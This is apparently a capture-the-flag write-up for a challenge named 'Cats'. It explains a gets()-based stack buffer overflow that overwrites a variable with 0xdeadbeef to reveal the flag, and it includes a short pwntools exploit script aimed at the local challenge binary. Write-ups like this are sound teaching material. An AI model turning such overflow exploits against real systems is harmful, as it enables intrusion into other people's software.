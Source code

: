# Cats

---
> I had to hide my secret so any MGCI cat-haters will never find it! Do you like cats?
---

### Static Analysis
---

Reading the source code, we can immediately spot an obvious buffer overflow via the `gets(hmm)` function.

The flag is printed when the variable `trustNoOne` is set to `0xdeadbeef`, despite it being initialized with a value of 0.

We can achieve this by simply overflowing the `trustNoOne` buffer with our buffer overflow and get the flag.


### Solution
---

```py
from pwn import *

p = process("./cats_KIFg4OV")
p.sendline(b"A"*60 + p32(0xdeadbeef))
p.interactive()
```



